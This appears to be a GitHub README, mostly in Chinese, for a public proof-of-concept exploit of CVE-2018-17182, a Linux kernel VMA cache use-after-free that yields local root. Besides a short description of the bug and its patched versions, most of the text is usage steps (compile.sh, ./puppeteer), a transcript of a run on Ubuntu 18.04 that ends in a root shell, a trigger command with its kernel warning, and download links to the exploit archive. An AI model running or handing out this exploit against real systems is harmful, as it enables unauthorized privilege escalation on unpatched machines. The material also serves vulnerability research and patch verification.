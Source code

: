 # CVE-2018-17182
Linux 内核VMA-UAF 提权漏洞（CVE-2018-17182）
![](./p.jpg)
# About
Google Project Zero的网络安全研究人员发布了详细信息，并针对自内核版本3.16到4.18.8以来Linux内核中存在的高严重性漏洞的概念验证（PoC）漏洞利用。

由白帽黑客Jann Horn发现，内核漏洞（CVE-2018-17182）是Linux内存管理子系统中的缓存失效错误，导致释放后使用漏洞，

如果被利用，可能允许攻击者获得root权限目标系统上的特权.

免费使用后（UAF）漏洞是一类内存损坏错误，非特权用户可利用这些错误来破坏或更改内存中的数据，从而导致拒绝服务（系统崩溃）或升级权限以获得管理权限访问系统

Linux内核漏洞于9月18日在oss-security邮件列表中公开，并在第二天在上游支持的稳定内核版本4.18.9,4.14.71,4.9.128和4.4.157中进行了修补.

在3.16.58版本中也有一个修复程序。

Attaching an ugly exploit for Ubuntu 18.04, kernel linux-image-4.15.0-34-generic at version 4.15.0-34.37.

It takes about `(40min~1hour)` to run before popping a root shell. 

### Linux内核利用需要一个小时才能获得Root访问权限

Usage: First compile with ./compile.sh, then run ./puppeteer. 
Example run:

```
user@ubuntu-18-04-vm:~/vmacache$
user@ubuntu-18-04-vm:~/vmacache$
user@ubuntu-18-04-vm:~/vmacache$ ./puppeteer 
Do Sep 20 23:55:11 CEST 2018
puppeteer: old kmsg consumed
got map from child!
got WARNING
got RSP line: 0xffff9e0bc2263c60
got RAX line: 0xffff8c7caf1d61a0
got RDI line: 0xffff8c7c214c7380
reached WARNING part 2
got R8 line: 0xffffffffa7243680
trace consumed
offset: 0x110
fake vma pushed
suid file detected, launching rootshell...
we have root privs now...
Fr Sep 21 00:48:00 CEST 2018
root@ubuntu-18-04-vm:~/vmacache# 
root@ubuntu-18-04-vm:~/vmacache# 
root@ubuntu-18-04-vm:~/vmacache# 
root@ubuntu-18-04-vm:~/vmacache# 

start=23:55:11
stop=00:48:00  :)
```

Proof of Concept:

https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/45497.zip

### Usage: `Within around 40 minutes`
```
user@debian:~/vma_bug$ gcc -O2 -o vma_test vma_test.c -g && ./vma_test
Segmentation fault
 
 
Within around 40 minutes, I get the following warning in dmesg:
 
=============================================
[ 2376.292518] WARNING: CPU: 0 PID: 1103 at mm/vmacache.c:157 vmacache_find+0xbb/0xd0
[ 2376.296813] Modules linked in: btrfs xor zstd_compress raid6_pq
[ 2376.300095] CPU: 0 PID: 1103 Comm: vma_test Not tainted 4.19.0-rc3+ #161
[ 2376.303650] Hardware name: QEMU Standard PC (i440FX + PIIX, 1996), BIOS 1.10.2-1 04/01/2014
[ 2376.305796] RIP: 0010:vmacache_find+0xbb/0xd0
[ 2376.306963] Code: 48 85 c0 74 11 48 39 78 40 75 1f 48 39 30 77 06 48 39 70 08 77 19 83 c2 01 83 fa 04 41 0f 44 d1 83 e9 01 75 c7 31 c0 c3 f3 c3 <0f> 0b 31 c0 c3 65 48 ff 05 98 97 9b 6a c3 90 90 90 90 90 90 90 0f
[ 2376.311881] RSP: 0000:ffffa934c1e3bec0 EFLAGS: 00010283
[ 2376.313258] RAX: ffff8ac7eaf997d0 RBX: 0000133700204000 RCX: 0000000000000004
[ 2376.315165] RDX: 0000000000000001 RSI: 0000133700204000 RDI: ffff8ac7f3820dc0
[ 2376.316998] RBP: ffff8ac7f3820dc0 R08: 0000000000000001 R09: 0000000000000000
[ 2376.318789] R10: 0000000000000000 R11: 0000000000000000 R12: ffffa934c1e3bf58
[ 2376.320590] R13: ffff8ac7f3820dc0 R14: 0000000000000055 R15: ffff8ac7e9355140
[ 2376.322481] FS:  00007f96165ca700(0000) GS:ffff8ac7f3c00000(0000) knlGS:0000000000000000
[ 2376.324620] CS:  0010 DS: 0000 ES: 0000 CR0: 0000000080050033
[ 2376.326101] CR2: 0000133700204000 CR3: 0000000229d28001 CR4: 00000000003606f0
[ 2376.327906] DR0: 0000000000000000 DR1: 0000000000000000 DR2: 0000000000000000
[ 2376.329819] DR3: 0000000000000000 DR6: 00000000fffe0ff0 DR7: 0000000000000400
[ 2376.331571] Call Trace:
[ 2376.332208]  find_vma+0x16/0x70
[ 2376.332991]  ? vfs_read+0x10f/0x130
[ 2376.333852]  __do_page_fault+0x191/0x470
[ 2376.334816]  ? async_page_fault+0x8/0x30
[ 2376.335776]  async_page_fault+0x1e/0x30
[ 2376.336746] RIP: 0033:0x555e2a2b4c37
[ 2376.337600] Code: 05 80 e8 9c fc ff ff 83 f8 ff 0f 84 ad 00 00 00 8b 3d 81 14 20 00 e8 48 02 00 00 48 b8 00 40 20 00 37 13 00 00 bf 37 13 37 13 <c6> 00 01 31 c0 e8 cf fc ff ff 48 83 ec 80 31 c0 5b 5d 41 5c c3 48
[ 2376.342085] RSP: 002b:00007ffd505e8d30 EFLAGS: 00010206
[ 2376.343334] RAX: 0000133700204000 RBX: 0000000100000000 RCX: 00007f9616102700
[ 2376.345133] RDX: 0000000000000008 RSI: 00007ffd505e8d18 RDI: 0000000013371337
[ 2376.346834] RBP: 00007f96165e4000 R08: 0000000000000000 R09: 0000000000000000
[ 2376.348889] R10: 0000000000000001 R11: 0000000000000246 R12: 0000000100000000
[ 2376.350570] R13: 00007ffd505e8ea0 R14: 0000000000000000 R15: 0000000000000000
[ 2376.352246] ---[ end trace 995fa641c5115cfb ]---
[ 2376.353406] vma_test[1103]: segfault at 133700204000 ip 0000555e2a2b4c37 sp 00007ffd505e8d30 error 6 in vma_test[555e2a2b4000+2000]
=============================================
 
The source code corresponding to the warning, which is triggered because
the VMA cache references a VMA struct that has been reallocated to
another process in the meantime:
 
#ifdef CONFIG_DEBUG_VM_VMACACHE
            if (WARN_ON_ONCE(vma->vm_mm != mm))
                break;
#endif
 
 
################################################################################
```

### 参考链接：

```
https://googleprojectzero.blogspot.com/2018/09/a-cache-invalidation-bug-in-linux.html

https://www.exploit-db.com/exploits/45497/

https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/45497.zip

```

